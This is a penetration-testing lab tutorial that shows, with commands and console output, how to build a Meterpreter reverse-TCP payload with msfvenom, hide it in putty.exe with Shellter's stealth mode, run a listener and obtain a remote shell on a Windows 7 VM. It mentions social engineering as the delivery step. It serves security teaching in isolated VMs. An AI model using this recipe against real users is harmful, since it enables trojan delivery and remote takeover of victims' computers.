





# Create payload to exploit users

**Note 1**: these labs are extremely **oriented to the results**, using a **_step-by-step guidance_**. During your progress, try to find more information and understand what you are doing. 

**Note 2**: these labs can only be executed on an Intel architecture - for instance, they will not work on the new **_Apple Silicon Macs_** (M1, M2, ...). 

## Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Windows 7 | The Windows 7 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Shellter | You need to have the Shellter tool installed. Shellter is a dynamic shellcode injection tool used to inject exploits and Shellcode into native Windows applications. |
| Windows 7 IP | The IP address of the Windows 7 VM. In my case it is 192.168.8.130. This may be different in your specific case. |
| Kali Linux IP | The IP address of the Kali Linux machine. In my case it is 192.168.8.147. This may be different in your specific case. |

## Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### Install Shellter

To install Shellter on Kali Linux, follow these steps (this process may take some time):

`sudo apt update`

`sudo apt install shellter`

`sudo dpkg --add-architecture i386`

`sudo apt update`

`sudo apt -y install wine32`

### Produce the “malicious” payload with Metasploit

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.147 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f raw -o /home/kali/Desktop/PhotoEditor.raw`

(note that LHOST and LPORT refer to the Kali Linux machine)

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai succeeded with size 462 (iteration=3)
x86/shikata_ga_nai succeeded with size 489 (iteration=4)
x86/shikata_ga_nai succeeded with size 516 (iteration=5)
x86/shikata_ga_nai succeeded with size 543 (iteration=6)
x86/shikata_ga_nai succeeded with size 570 (iteration=7)
x86/shikata_ga_nai succeeded with size 597 (iteration=8)
x86/shikata_ga_nai succeeded with size 624 (iteration=9)
x86/shikata_ga_nai chosen with final size 624
Payload size: 624 bytes
Saved as: /home/kali/Desktop/PhotoEditor.raw
```

### Download an executable application

This executable application will carry the “malicious” payload. We are going to use [putty.exe](https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe). (32 bit version)

### Inject Encoded Payload into Putty With Shellter

This will inject our Metasploit generated payload into the `putty.exe` application.

#### Run Shellter

`shellter`



Select the Auto operation: A

Select the PE Target: location of `putty.exe` that was downloaded.



Wait… this takes time!

Select Enable Stealth Mode = Y

Use a custom payload = C

Select the location of the payload that was previously created with Metasploit (`/home/kali/Desktop/PhotoEditor.raw`).

Answer that this is not a reflective DLL loader, choosing the option N.



Wait until the end of the process!



You now have a `putty.exe` file properly injected with the payload.

Now you have to **copy** the `putty.exe` to the **Windows machine**. This is the part where some attacker would have to do some social engineering.

### Create a Metasploit reverse listener

This process will create on Metasploit a reverse TCP listener that will sit and wait for remote connections - hopefully from our “malicious” payload.

#### Start Metasploit

`msfconsole`

#### Select the module

`use exploit/multi/handler`

`options`

```
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

#### Select the payload

`set PAYLOAD windows/meterpreter/reverse_tcp`

#### Set the options for payload

`options` 

```
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

`set LHOST 192.168.8.147`

`set LPORT 4444`

`options`

```
Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.8.147    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

#### Run this exploit

`exploit`

```
[*] Started reverse TCP handler on 192.168.8.147:4444
```

Now simply wait for connections…

#### Run “putty.exe”

Go back to the Windows machine and run the “putty.exe” command.



#### Back to Metasploit

Now look at your Metasploit window… looks like we have a connection.

```
[*] Started reverse TCP handler on 192.168.8.147:4444 
[*] Sending stage (175686 bytes) to 192.168.8.130
[*] Meterpreter session 1 opened (192.168.8.147:4444 -> 192.168.8.130:49211) at 2023-03-29 14:24:25 -0400

meterpreter >
```

#### Interact with meterpreter

`shell`

```
meterpreter > shell
Process 3372 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\John Doe\Desktop>
```

## Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?